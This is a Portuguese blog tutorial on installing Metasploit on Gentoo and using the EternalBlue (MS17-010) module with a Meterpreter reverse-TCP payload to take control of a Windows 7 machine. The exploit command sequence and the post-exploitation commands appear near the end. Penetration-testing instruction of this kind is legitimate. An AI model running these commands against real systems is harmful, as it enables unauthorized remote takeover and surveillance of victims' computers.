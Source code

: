 ```yaml
---
layout: post
title: "Como Acessar o Windows pelo Linux com Metasploit"
date: 2019-04-17 21:03:35
image: '/assets/img/dicas/metasploit-linux-min.jpg'
description: 'Metasploit é um projeto de segurança da informação que fornece informações sobre vulnerabilidades de segurança e ajuda nos testes de penetração.'
main-class: 'bash'
tags:
- metasploit
- security
- windows
---
```


![Como Acessar o Windows pelo Linux com Metasploit](/assets/img/dicas/metasploit-linux-min.jpg)

## Introdução

O [Metasploit](https://www.metasploit.com/) é um projeto de segurança da informação que fornece informações sobre vulnerabilidades de segurança e ajuda nos testes de penetração . 

É de propriedade da empresa de segurança Rapid7 , de Boston, Massachusetts que possui diversos softwares ( **Opcode** - *Banco de Dados* ; e o **Shellcode** , *que executa comandos de* [Shell Script](http://terminalroot.com.br/shell), ... ), entre eles o mais conhecido que é o [Metasploit Framework](https://github.com/rapid7/metasploit-framework), um software de código aberto uma ferramenta para explorar falhas de uma máquina remota.

O Metasploit possui 6 tipos de módulos (*auxiliary*, *exploit*, *payload*, *post*, *encoder* e *nop*) . No vídeo apresentado por nós vamos utilizar o [Meterpreter](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter) que  é um *payload* avançado.


## Instalação

Existem diversas maneiras de você instalar o **Metasploit Framework** . Baixando diretamente pelo site <https://www.metasploit.com/> ou pelo GitHub <https://github.com/rapid7/metasploit-framework> . Ou instalando via gerenciador de pacotes da sua distribuição, por exemplo, na distribuição que eu utilizo [Gentoo](https://gentoo.org) basta realizar os comandos abaixo:

{% highlight bash %}
# su ou sudo
emerge -a net-analyzer/metasploit \
dev-ruby/metasploit_payloads-mettle \
dev-ruby/metasploit_data_models \
dev-ruby/metasploit-payloads \
dev-ruby/metasploit-model \
dev-ruby/metasploit-credential \
dev-ruby/metasploit-concern \
app-eselect/eselect-metasploit
{% endhighlight %}

O comando acima irá pedir para atualizar o *package.use* por conta das flags, então rode o comando:

{% highlight bash %}
etc-update --automode -5
{% endhighlight %}

E então rode o comando de instalação novamente.

Após instalação, talvez você não encontre o comando `msfconsole` responsável por abrir o Metasploit, então crie um link simbólico com o *root* ou *sudo*, com o comando abaixo:

{% highlight bash %}
ln -s /usr/lib64/metasploit4.17/msfconsole /usr/bin/msfconsole
{% endhighlight %}

E pronto, o Metasploit está pronto para uso! Lembrando que em algumas distribuições já possuem o Metasploit instalado por padrão, como o [Pentoo](http://terminalroot.com.br/2018/02/como-instalar-o-pentoo-um-gentoo-para-pentest.html) e o [Kali Linux](https://www.kali.org/) entre outras criadas especialmente para testes de invasão.

Próximo passo é rodar o Metasploit rodando o comando:

{% highlight bash %}
msfconsole
{% endhighlight %}

Isso irá abrir o framework, e em seguida usaremos o Meterpreter para acessar o [Windows](http://terminalroot.com.br/2018/03/como-usar-o-shell-bash-no-windows.html) , basta rodar os comandos abaixo na ordem:

{% highlight bash %}
use exploit/windows/smb/ms17_010_eternalblue
set RHOST NÚMERO_IP_DA_MÁQUINA_WINDOWS
set payload windows/x64/meterpreter/reverse_tcp
set LHOST NÚMERO_IP_DA_SUA_MÁQUINA
set encoder generic/none
exploit
{% endhighlight %}

Lembrando que esses comandos são a grosso modo e servem para Windows 7 Service Pack 1 , para outras versões assista o vídeo com link abaixo que há mais detalhes para variados casos:

Após acessar você pode obter informações detalhadas do sistema com o comando `sysinfo`; tirar um print da tela com o comando `screenshot` ; saber qual diretório você está com o comando `pwd` a saída será algo do tipo *c:\windows\system32\* ; desligar, reiniciar,... entre vários comando que podem ser consultado pelo comando `help` .

## Assista ao Vídeo

# [Clique Aqui Para Ver o Vídeo](https://youtu.be/VcbC0yJsWic)

> Esse artigo e o vídeo apresentado foram criados com finalidade didática.

***

## Conheça nosso Treinamentos de Shell Script, Vim, Expressões Regulares e Sed
# <http://terminalroot.com.br/cursos>

## Crie Sua Promoção
# <http://terminalroot.com.br/promo>

## Acompanhe todos os vídeos da **Série Shell Script Profissional**
# [#ShellPro](http://bit.ly/shell-pro-root)

Comente!
